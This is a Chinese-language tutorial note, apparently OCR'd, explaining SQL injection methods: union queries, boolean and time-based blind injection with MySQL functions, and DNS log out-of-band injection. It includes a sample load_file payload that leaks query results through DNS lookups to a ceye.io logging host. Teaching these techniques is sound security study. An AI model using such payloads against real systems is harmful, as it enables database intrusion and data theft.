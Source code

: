 ##### 	1、union联合注入

​		1>条件：联合查询两边字段数一样

​		2>步骤：（1）探测是否存在sql注入和注入类型

​						（2）order by 猜字段数

​						（3）探测显示位

​						（4）在显示位构造子查询

##### 	2、boolean盲注

​		1>概述：Boolean注入是指构造SQL判断语句，通过查看页面的返回结果来推测哪些SQL判断条件是成立的，以此来获取数据库中的数据。

​						Boolean是基于真假的判断; 不管输入什么，结果都只返回真或假两种情况。

​						Boolean型盲注的关键在于通过表达式结果与已知值进行比对，根据比对结果判断正确与否。

​		2>判断方法：通过长度判断length():length(database())>=x 

​								通过字符判断substr():substr(database(),1,1) =‘s’ 

​								通过ascII码判断:ascii():ascii(substr(database(),1,1)) =x

##### 	3、时间盲注

​		1>概述：代码存在sql注入漏洞，然而页面既不会回显数据，也不会回显错误信息，语句执行后也不提示真假，我们不能通过页面的内容来判断。这里我们可以通过构造语句，通过页面响应的时长，来判断信息，这既是时间盲注。

​		2>原理：利用sleep()或benchmark()等函数让mysql执行时间变长，经常与 if(expr1,expr2, expr3）语句结合使用，通过页面的响应时间来判断条件是否正确。

​		3>常用函数：left(m,n) --从左向右截取字符串m返回其前n位 

​								substr(m,1,1) --取字符串m的左边第一位起，1字长的字符串 

​								ascii(m) --返回字符m的ASCII码  

​								if(str1,str2,str3)--如果str1正确就执行str2，否则执行str3 

​								sleep(m)--使程序暂停m秒 

​								length(m) --返回字符串m的长度 

​								count(column_name) --返回指定列的值的数目

##### 	4、DNS Log注入

​		1>概述：DNSlog注入，也叫DNS带外查询，它是属于带外通信的一种(Out of Band,简称OOB)。寻常的注入基本都是在同一个信道上面的，比如正常的get注入，先在url上插入payload做HTTP请求，然后得到HTTP返回包，没有涉及其他信道。而所谓的带外通信，至少涉及两个信道。

​		2>注入原理：

​				(1) 攻击者先向web服务器提交payload语句，比如：select load_file(concat('\\\\','攻击语句',.XXX.ceye.io\\abc))

​				(2) 其中的攻击语句被放到数据库中会被执行，生成的结果与后面的.XXX.ceye.io\\abc构成一个新的域名

​				(3) 这时load_file()就可以发起请求，那么这一条带有数据库查询结果的域名就被提交到DNS服务器进行解析

​				(4) 此时，如果我们可以查看DNS服务器上的Dnslog就可以得到SQL注入结果，实际上在域名解析的过程中，是由顶级域名向下逐级解析的，我们构造的攻击语句也是如此，当它发现域名中存在ceye.io时，它会将这条域名信息转到相应的DNS服务器上，而通过http://ceye.io我们就可以查询到这条DNS解析记录。
